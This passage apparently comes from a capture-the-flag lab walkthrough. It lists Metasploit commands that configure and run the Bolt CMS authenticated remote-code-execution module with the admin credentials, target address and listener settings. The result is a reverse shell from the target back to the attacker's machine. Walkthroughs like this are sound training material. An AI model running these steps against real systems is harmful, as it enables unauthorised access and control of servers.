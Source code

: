 ```bash



View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/bolt_authenticated_rce) > 
```
16. `set PASSWORD {JAKE'S PASSWORD}` to set the value of the **PASSWORD** variable to the target's admin password
17. `set RHOSTS {TARGET IP}` to set the value of the ** RHOSTS** variable to our target's IP address
18. `set USERNAME {JAKE'S USERNAME}` to set the value of the **USERNAME** variable to the target's admin username
19. `set LHOST {MACHINE IP}` to set the value of the **LHOST** variable to our attack machine's IP address
20. `set LPORT {PORT NUMBER}` to set the value of the **LPORT** variable to an unused port on our attack machine
21. `show options` to display the new configuration settings that we made for this module to verify that we have provided the correct necessary information that this it needs to properly execute
22. `exploit` to execute the exploit against our target, which ended up spawning in a reverse shell our target (RHOSTS) that connected back to to our attack machine (LHOST) on the local port (LPORT) that we specified
```bash
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set PASSWORD boltadmin123
PASSWORD => boltadmin123
```
```bash
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set RHOSTS 10.10.195.64
RHOSTS => 10.10.195.64
```
```bash
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set USERNAME bolt
USERNAME => bolt
```
```bash
set LHOST 10.10.227.231
LHOST => 10.10.227.231
```
```bash
> set LPORT 9999
LPORT => 9999
```
```bash
msf6 exploit(unix/webapp/bolt_authenticated_rce) > show options

Module options (exploit/unix/webapp/bolt_authenticated_rce):

   Name                 Current Setting        Required  Description
   ----                 ---------------        --------  -----------
   FILE_TRAVERSAL_PATH  ../../../public/files  yes       Traversal path from "/files" on the web server to "/root" on the server
   PASSWORD             boltadmin123           yes       Password to authenticate with
   Proxies                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS               10.10.195.64           yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                8000                   yes       The target port (TCP)
   SSL                  false                  no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI            /                      yes       Base path to Bolt CMS
   URIPATH                                     no        The URI to use for this exploit (default is random)
   USERNAME             bolt                   yes       Username to authenticate with
   VHOST                                       no        HTTP server virtual host
```